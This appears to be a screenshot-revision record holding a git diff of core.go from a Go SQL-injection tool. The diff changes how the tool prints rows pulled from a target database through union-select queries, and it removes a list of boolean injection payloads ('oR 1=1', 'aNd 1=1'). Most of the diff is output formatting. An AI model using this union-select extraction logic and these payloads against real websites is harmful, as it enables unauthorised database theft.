

output

Changed region(s): [[0.0, 0.0, 0.7088, 1.0], [0.0308, 0.0306, 0.0616, 0.1224]]

diff --git a/core/core.go b/core/core.go
@@ -23,7 +23,6 @@ var (
 	OrderKeyword    = "Unknown column"
 	annotator       = "--+"
 	space           = "%20"
-	detectSql       = []string{"oR%201=1", "aNd%201=1", ""}
 )
 
 func DetectSqlInject(url string) string {
@@ -199,7 +198,7 @@ func GetColumns(pos Pos, suffix string, url string, key int, tableName string) s
 	return ""
 }
 
-func GetData(pos Pos, suffix string, url string, key int, tableName string, columns []string) string {
+func GetData(pos Pos, suffix string, url string, key int, tableName string, columns []string) {
 	url = url + "0"
 	data := "union%20select"
 	dataSql := bytes.Buffer{}
@@ -223,18 +222,53 @@ func GetData(pos Pos, suffix string, url string, key int, tableName string, colu
 		innerR := []rune(body)
 		innerRes := string(innerR[pos.StartIndex:])
 		result := strings.Split(innerRes, "<")[0]
-		log.Info("Data:")
-		for _, innerV := range columns {
-			fmt.Print(innerV + "\t\t\t")
-		}
-		fmt.Println()
+		log.Info("Get Data Success")
+		var output [][]string
 		for _, v := range strings.Split(result, ",") {
-			for _, innerV := range strings.Split(v, ":") {
-				fmt.Print(innerV + "\t\t\t")
+			var temp []string
+			params := strings.Split(v, ":")
+			for _, innerV := range params {
+				temp = append(temp, innerV)
 			}
-			fmt.Println()
+			output = append(output, temp)
 		}
-		return innerRes
+		var outputHeaderArray []interface{}
+		var outputDataArray [][]interface{}
+		for _, arg := range columns {
+			outputHeaderArray = append(outputHeaderArray, arg)
+		}
+		for _, arg := range output {
+			var temp []interface{}
+			for _, v := range arg {
+				temp = append(temp, v)
+			}
+			outputDataArray = append(outputDataArray, temp)
+		}
+		printData(outputHeaderArray, outputDataArray)
 	}
-	return ""
+}
+
+func printData(columns []interface{}, data [][]interface{}) {
+	fmt.Print("|")
+	for i := 0; i < len(columns); i++ {
+		if i == 0 {
+			fmt.Print("----------")
+		} else {
+			fmt.Print("-----------")
+		}
+	}
+	fmt.Print("|\n")
+	fmt.Printf("|%-10s|%-10s|%-10s|\n", columns...)
+	for _, v := range data {
+		fmt.Printf("|%-10s|%-10s|%-10s|\n", v...)
+	}
+	fmt.Print("|")
+	for i := 0; i < len(columns); i++ {
+		if i == 0 {
+			fmt.Print("----------")
+		} else {
+			fmt.Print("-----------")
+		}
+	}
+	fmt.Print("|")
 }
